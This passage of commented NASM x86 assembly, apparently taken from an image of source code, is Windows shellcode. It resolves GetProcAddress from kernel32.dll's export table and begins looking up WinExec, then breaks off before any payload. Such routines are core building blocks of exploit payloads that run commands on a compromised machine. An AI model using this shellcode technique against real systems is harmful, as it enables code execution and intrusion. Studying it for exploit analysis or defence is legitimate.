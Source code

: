 ```nasm
add esi,ebx ; ESI=(AddressOfNames+kernel32.dll base address)=kernel32.dll AddressOfNames
xor ecx,ecx

;--------------------------------------------------------------------------------------------------------------


;finding GetProcAddress function name

Get_func:

inc ecx ;Incrementing the Ordinal
lodsd ;Get name Offset
add eax,ebx ;(name offset+kernel32.dll base address)=Get Function name
cmp dword [eax],0x50746547 ;GetP
jnz Get_func
cmp dword [eax+0x4],0x41636f72 ; rocA
jnz Get_func
cmp dword [eax+0x8],0x65726464 ; ddre
jnz Get_func

;-----------------------------------------------------------------------------------------------------------



;finding the address of GetProcAddress

mov esi,[edx+0x24] ;Esi=(IMAGE_EXPORT_DIRECTORY+0x24)=AddressOfNameOrdinals
add esi,ebx ;(AddressOfNameOrdinals+base address of kernel32.dll)=AddressOfNameOrdinals of kernel32.dll
mov cx,[esi+ecx*2] ;CX=Number of Function
dec ecx
mov esi,[edx+0x1c] ;(IMAGE_EXPORT_DIRECTORY+0x1c)=AddressOfFunctions
add esi,ebx ;ESI=beginning of Address table
mov edx,[esi+ecx*4] ;EDX=Pointer(offset)
add edx,ebx ;Edx=Address of GetProcAddress

;-------------------------------------------------------------------------------------------------------

;backing up address of GetProcAddress because EAX,EBX,EDX,ECX Register value will be changed after calling function
xor esi,esi
push edx
pop esi

;----------------------------------------

;backing up kernel32.dll base address
xor edi,edi
push ebx
pop edi

;------------------------
;Finding address of Winexe()
xor ecx,ecx
push ecx
push 0x00636578
push 0x456e6957

mov ecx,esp

```